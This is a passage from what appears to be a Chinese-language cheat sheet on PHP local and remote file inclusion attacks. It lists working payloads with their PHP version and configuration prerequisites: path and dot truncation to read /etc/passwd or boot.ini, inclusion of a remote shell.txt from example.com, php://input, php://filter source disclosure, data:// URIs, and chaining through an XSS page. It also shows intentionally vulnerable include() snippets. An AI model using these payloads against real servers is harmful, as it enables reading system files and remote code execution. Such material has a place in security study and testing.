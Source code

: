 (需要 magic_quotes_gpc=off，unix 文件系统，比如 FreeBSD，OpenBSD，NetBSD，Solaris)

*   路径长度截断：

?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

(php 版本小于 5.2.8(?)可以成功，linux 需要文件名长于 4096，windows 需要长于 256)

*   点号截断：

?file=../../../../../../../../../boot.ini/………[…]…………

(php 版本小于 5.2.8(?)可以成功，只适用 windows，点号需要长于 256)

## 0x03 普通远程文件包含

* * *

```
<?php include($_GET['file']); ?>

```

*   远程代码执行：

?file=[http|https|ftp]://example.com/shell.txt

(需要 allow_url_fopen=On 并且 allow_url_include=On)

*   利用 php 流 input：

?file=php://input

(需要 allow_url_include=On，详细→http://php.net/manual/en/wrappers.php.php)

*   利用 php 流 filter：

?file=php://filter/convert.base64-encode/resource=index.php

(同上)

*   利用 data URIs：

?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

(需要 allow_url_include=On)

*   利用 XSS 执行任意代码：

?file=http://127.0.0.1/path/xss.php?xss=phpcode

(需要 allow_url_fopen=On，allow_url_include=On 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。条件非常极端和特殊- -)

## 0x04 有限制的远程文件包含

* * *

```
<?php include($_GET['file'] . ".htm"); ?> 

```
